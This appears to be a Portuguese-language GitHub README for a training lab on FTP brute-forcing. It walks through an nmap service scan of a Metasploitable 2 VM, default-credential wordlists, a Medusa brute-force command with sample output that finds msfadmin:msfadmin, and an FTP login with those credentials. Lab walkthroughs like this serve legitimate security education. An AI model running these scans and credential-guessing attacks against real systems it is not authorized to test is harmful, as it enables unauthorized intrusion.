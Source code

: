 # Projeto de Simulação de Ataques de Força Bruta com Kali Linux e Medusa

## Descrição do Projeto
Este projeto tem como objetivo demonstrar a execução de ataques de força bruta utilizando Kali Linux e a ferramenta Medusa contra serviços vulneráveis do Metasploitable 2 e aplicação DVWA (Damn Vulnerable Web Application). O projeto também aborda a configuração do ambiente para testes de segurança, tipos de ataques cibernéticos, vulnerabilidades exploradas e medidas de mitigação para proteger sistemas.

## Objetivos
- Compreender ataques de força bruta em serviços FTP, Web e SMB.
- Utilizar Kali Linux e Medusa para auditoria de segurança em ambiente controlado.
- Documentar processos técnicos de forma clara e estruturada.
- Reconhecer vulnerabilidades comuns e propor medidas de mitigação.
- Disponibilizar a documentação e evidências em repositório GitHub como portfólio técnico.

## Ambiente Configurado
- Duas VMs no VirtualBox:
  - Kali Linux (atacante)
  - Metasploitable 2 (vítima vulnerável)
- Rede configurada como Host-Only para comunicação interna entre as VMs.
- DVWA instalado na Metasploitable 2 para testes em aplicações web.

## Ataques Executados

### Ataque de Força Bruta FTP com Medusa

# 1) Enumeração com nmap (portas 21,22,80,139,445)
   
   # varre as portas específicas com detecção de versão e scripts básicos
Comando: nmap -sV -sC -p 21,22,80,139,445 192.168.10.3 -oA nmap_metasp_ftp_scan

O que fazem os parâmetros:

-p 21,22,80,139,445 → varre apenas essas portas.

-sV → tenta descobrir versão do serviço.


# Exemplo de saída:

──(kali㉿kali)-[~]
└─$ nmap -sV -sC -p 21,22,80,139,445 192.168.10.3                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-07 17:12 EDT
Nmap scan report for 192.168.10.3
Host is up (0.0027s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.10.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)



 # 2) Lista de contas / senhas para teste (wordlists simples)

Crie dois arquivos (um para usuários, outro para senhas). 
# users.txt
┌──(kali㉿kali)-[~]
└─$ mkdir -p ~/wordlists   
                                                                                                                                
                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ cat > ~/wordlists/users.txt <<'EOF'
msfadmin
root
admin
user
test
guest
ftp
anonymous
tom
backup
EOF
                                                                                                                                 
# passwords.txt
cat > ~/wordlists/passwords.txt <<'EOF'
msfadmin
msf
toor
root
admin
password
123456
test
guest
ftp
EOF

# 3) Brute-force/enumeração com Medusa (FTP)

Instalação (se necessário):

sudo apt update
sudo apt install medusa -y

# Comando Medusa para FTP, usando listas criadas:
medusa -h 192.168.10.3 -U ~/wordlists/users.txt -P ~/wordlists/passwords.txt -M ftp -t 6 -f

O que significam as flags:

-h → alvo (IP).

-U → lista de usuários (um por linha).

-P → lista de senhas.

-M ftp → módulo/serviço FTP.

-t 6 → número de threads concorrentes (ajuste conforme CPU/rede).

-f → parar o ataque quando encontrar uma credencial válida para um usuário.

# Exemplo de saída esperada quando encontra credenciais:

┌──(kali㉿kali)-[~/wordlists]
└─$ medusa -h 192.168.10.3 -U ~/wordlists/users.txt -P ~/wordlists/passwords.txt -M ftp -t 6 -f

Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-07 17:50:37 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 0 complete) Password: msfadmin (1 of 10 complete)
# 2025-10-07 17:50:37 ACCOUNT FOUND: [ftp] Host: 192.168.10.3 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-07 17:50:38 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: admin (2 of 10 complete)
2025-10-07 17:50:38 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: password (3 of 10 complete)
2025-10-07 17:50:38 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: msf (4 of 10 complete)
2025-10-07 17:50:40 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: root (5 of 10 complete)
2025-10-07 17:50:40 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: toor (6 of 10 complete)
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/wordlists]
└─$ 

# 4) Teste de conexão FTP com as credenciais encontradas

Suponha que o medusa retornou msfadmin:msfadmin. Teste com um cliente FTP simples.

Modo interativo (ftp client):

Comando: ftp 192.168.10.3
# quando pedir:
Name (192.168.10.3:youruser): msfadmin
Password: msfadmin

Saída esperada:

┌──(kali㉿kali)-[~/wordlists]
└─$ ftp 192.168.10.3
Connected to 192.168.10.3.
220 (vsFTPd 2.3.4)
Name (192.168.10.3:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
 

